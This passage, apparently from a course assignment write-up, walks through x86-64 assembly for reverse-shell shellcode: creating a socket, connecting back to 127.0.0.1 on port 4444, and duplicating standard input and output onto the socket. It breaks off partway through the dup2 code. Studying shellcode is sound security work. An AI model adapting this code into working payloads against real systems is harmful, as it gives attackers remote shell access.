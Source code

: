   - **RAX** <- 41 : Syscall number. 
  - **RDI** <- 2  : Domain parameter. AF_INET is for IPv4. 
  - **RSI** <- 1  : Type parameter. SOCK_STREAM means connection oriented TCP. 
  - **RDX** <- 0  : Protocol. IPPROTO_IP means it’s an IP protocol 

The syscall will return a file descriptor in **RAX**, that is saved into **RDI**. This saves the socket descriptor for later use in the code.

#### Connect Back
The following call is the one being to be used: 
```c
int  connect(int  sockfd, const struct sockaddr *serv_addr, socklen_t addrlen); 
```
For this assignment, registers will get the following values: 

- **RDI** : The sock descriptor id from `sys_open` 
- **RSI** : Addres of the `sockaddr` struct 
- **RDX** : Length of the struct 

First is to build the struct with the required data. This is done using the stack in the following code: 

```asm
; Prepare the struct for connect 
;     server.sin_family = AF_INET 
;     server.sin_port = htons(PORT) 
;     server.sin_addr.s_addr = inet_addr("127.0.0.1") 
;     bzero(&server.sin_zero, 8) 

xor rax, rax 
push rax                                ; bzero 

mov dword [rsp-4], 0x0100007f           ; Inet addr == 127.0.0.1 
mov word [rsp-6], 0x5c11                ; Port 4444 
mov word [rsp-8], 0x2                   ; TCP Connection 
sub rsp, 8                              ; Update RSP value 
```
The legth of this struct is a total of 16 bytes, and the address to the struct is in **RSP**. 

Next step is do the call to `sys_connect`, placing **RSP** into **RSI** to point to the `sockaddr` struct, **RDI** already will have the socket descriptor id from before, and **RDX** the value "16" that's the length of the struct: 
```asm
; connect(sock, (struct sockaddr *)&server, sockaddr_len) 

mov rax, 42                             ; Syscall number for connect() 
mov rsi, rsp                            ; & struct 
mov rdx, 16                             ; Struct length 
syscall 
```
#### Duplicate to Socket Descriptor
Now is time to duplicate `stdin`, `stdout` and `stderr` to the socket descriptor. This is done in the following code, pretty much the same as the previous assignment: 
```asm
        ; duplicate sockets 
        ; dup2 (new, old) 

        mov rax, 33 
        mov rsi, 0 
        syscall 

        mov rax, 33 
        mov rsi, 1 
        syscall 

        mov rax, 33 
        mov rsi, 2 
```